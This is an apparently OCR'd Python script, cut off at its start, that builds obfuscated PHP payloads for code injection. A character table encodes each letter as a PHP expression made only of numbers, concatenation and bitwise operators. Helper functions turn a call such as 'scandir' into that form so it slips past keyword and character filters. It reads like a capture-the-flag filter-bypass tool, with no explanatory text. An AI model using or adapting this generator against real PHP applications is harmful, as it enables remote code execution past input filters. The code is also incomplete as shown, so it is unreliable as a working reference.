 ```python
    "$":"((((-1).(0)){0})&(((4).(0)){0}))",
    "l":"((((-1).(0)){0})&(((4).(0)){0}))|(~((0).(0)){0})&~((~((8).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))",
    "H": "(~((0).(0)){0})&~((~((8).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))",
    "Z" : "(~(((((-1).(0)){0})&(((4).(0)){0}))))&(~((~(((8).(0)){0}))&((~(((2).(0)){0}))&(~(((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))))",
    "v" :"(((2).(0)){0})|((~((1).(0)){0})&((10000000000000000000).(1)){3})",
    "D" :"(~((1).(0)){0})&((10000000000000000000).(1)){3}",
    "A" :"(~((2).(0)){0})&(~((~((1).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))",
    "P" :"(~((1.1).(0)){1})&((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))",
    "O" :"(~((0).(0)){0})&(~((~((8).(0)){0})&((~((2).(0)){0})&(~((10000000000000000000).(1)){3}))))",
    "S" :"(~((((-1).(0)){0})&(((4).(0)){0})))&(~((~((2).(0)){0})&(~((10000000000000000000).(1)){3})))",
    "U" :"(((10000000000000000000).(1)){3})|((~((((-1).(0)){0})&(((4).(0)){0})))&(~((~((1).(0)){0})&(~((1.1).(0)){2}))))",
    "_" :"((10000000000000000000).(1)){3}|(((~((((-1).(0)){0})&(((4).(0)){0})))&(~((~((1).(0)){0})&(~((1.1).(0)){1})))))",
    "T" :"(~(((1).(0)){0}&(~((2).(0)){0})))&(~((~((10000000000000000000).(1)){3})&(~(((1).(0)){0}&(~((1.1).(0)){1})))))",
    "I" :"(~(((0).(0)){0}))&(~((~((8).(0)){0})&((~((1).(0)){0})&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))))",
    "N" :"(~((0).(0)){0})&(~((~((8).(0)){0})&((~(((2).(0)){0}))&(~((~((1).(0)){0})&((10000000000000000000).(1)){3})))))",
    "f" :"((((-1).(0)){0})&(((4).(0)){0}))|((~(((4).(0)){0}))&(~((~(((2).(0)){0}))&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))))))",
    "B" :"(~(((4).(0)){0}))&(~((~(((2).(0)){0}))&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))",
    "r" :"(~((~(((2).(0)){0}))&(~((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))))",
    "[" :"(~(((((-1).(0)){0})&(((4).(0)){0}))))&(~((~((8).(0)){0})&((~(((2).(0)){0}))&(~(((10000000000000000000).(1)){3})))))",
    "]" :"(((10000000000000000000).(1)){3})|((((8).(0)){0})&(~(((((-1).(0)){0})&(((4).(0)){0})))))",
    "C":"(~(((4).(0)){0}))&(~((~(((2).(0)){0}))&(~(((10000000000000000000).(1)){3}))))",
    "M":"(~(((0).(0)){0}))&(~((~(((8).(0)){0}))&(~(((10000000000000000000).(1)){3}))))",
    "\\":"(~(((((1).(0)){0}))&(~(((2).(0)){0})))&~((~(((10000000000000000000).(1)){3}))&~((((8).(0)){0})&(~(((((-1).(0)){0})&(((4).(0)){0})))))))",
    "/":"((((1.1).(0)){1})|(((-1).(0)){0}))",
    "G":"(~(((8).(0)){0}))&(~((~(((2).(0)){0}))&(~(((10000000000000000000).(1)){3}))))",
    "g":"(((10000000000000000000).(1)){3})|((((2).(0)){0})&(((1.1).(0)){1}))",
    "a":"((((1).(0)){0})&((~((2).(0)){0})))|((((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1})))&(~((((1).(0)){0})&(~(((1.1).(0)){1})))))"
    }
s="scandir"
def topayload(s):
    result=""
    for i in s:
        if(i in arr):
            result+=("("+arr[i]+")"+".")
            continue
        if(i.upper() in arr):
            result+=("("+arr[i.upper()]+")"+".")
            continue
        if(i.lower() in arr):
            result+=("("+arr[i.lower()]+")"+".")
    return result[:-1]
def tomethod(meth,para,c=True):
    if c:
        return "("+topayload(meth)+")("+topayload(para)+")"
```